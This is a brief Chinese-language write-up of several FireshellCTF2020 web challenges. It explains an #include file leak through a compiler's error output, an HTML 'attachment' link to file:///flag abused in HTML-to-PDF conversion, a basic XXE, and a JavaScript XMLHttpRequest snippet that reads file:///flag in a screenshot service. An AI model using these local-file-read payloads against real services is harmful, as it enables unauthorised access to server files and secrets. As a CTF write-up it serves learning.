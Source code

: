 # FireshellCTF2020

## Caas

还蛮有意思的，可以在线编译c/c++

应该是调用服务器上gcc

编译的时候会出啥岔子呢

原题提示``/flag`` 那么考虑能不能LFI

``#include``试下

然后在报错信息里看到了flag

## URL TO PDF

buuoj不能连外网么法看，这题复现的wp

https://blog.shoebpatel.com/2020/03/23/FireShell-CTF-2020-Write-up/

就是html转pdf的时的attachment

开个靶机然后设置一个这样的网页

```
<!DOCTYPE html>
<html>
<head>
<title>Captain</title>
</head>
<body>
<a>"222"</a>
<a rel='attachment' href='file:///flag'>233</a>
</body>
```

貌似是因为后端在转pdf的时候会执行html里的指令，然后把flag带出来了

然后用kali的pdfdetach分离出pdf里的attachment

## Car

一个基础XXE

## ScreenShooter

和URL TO PDF类似的思路

这里利用javascript去读

```javascript
exp=new XMLHttpRequest;exp.onload=function(){document.write(this.responseText)};exp.open("GET","file:///flag");exp.send();
```

